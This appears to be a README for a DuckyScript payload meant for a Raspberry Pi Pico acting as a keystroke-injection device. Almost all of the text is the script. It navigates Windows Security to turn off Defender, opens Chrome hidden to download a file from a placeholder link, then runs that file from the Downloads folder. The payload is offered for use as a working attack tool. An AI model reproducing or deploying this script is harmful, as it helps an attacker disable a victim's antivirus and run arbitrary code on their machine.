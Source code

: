 # Download-Execute (MADE IN DUCKYSCRIPT)
Designed For The Raspberry Pi Pico.
Disables Windows Defender And Downloads Files From Google &amp; Executes Them

Make Sure When Putting It In Your Raspberry Pi Pico To Replace The .txt With .dd!
```
DELAY 1000
REM windows security
CTRL ESC
DELAY 600
STRING windows security
DELAY 300
ENTER
DELAY 1000
ENTER
TAB
TAB
TAB
TAB
DELAY 300
ENTER
DELAY 600
SPACE
DELAY 600
LEFT
ENTER
DELAY 300
CTRL ESC
DELAY 300
REM hash
DELAY 300
STRING cmd
DELAY 300
ENTER
DELAY 300
STRING start chrome -w hidden YOUR FILE LINK
DELAY 300
ENTER
DELAY 600
TAB
DELAY 200
TAB
DELAY 200
TAB
DELAY 200
TAB
DELAY 200
TAB
DELAY 200
TAB
DELAY 200
TAB
DELAY 200
TAB
DELAY 200
TAB
DELAY 200
ENTER
DELAY 300
TAB
DELAY 200
TAB
DELAY 200
TAB
DELAY 200
TAB
DELAY 300
ENTER
DELAY 300
TAB
DELAY 100
ENTER
DELAY 300
GUI r
DELAY 300
STRING cmd
DELAY 300
ENTER
DELAY 300
STRING cd Downloads
DELAY 300
ENTER
DELAY 300
STRING Name Of The File
DELAY 300
ENTER
```
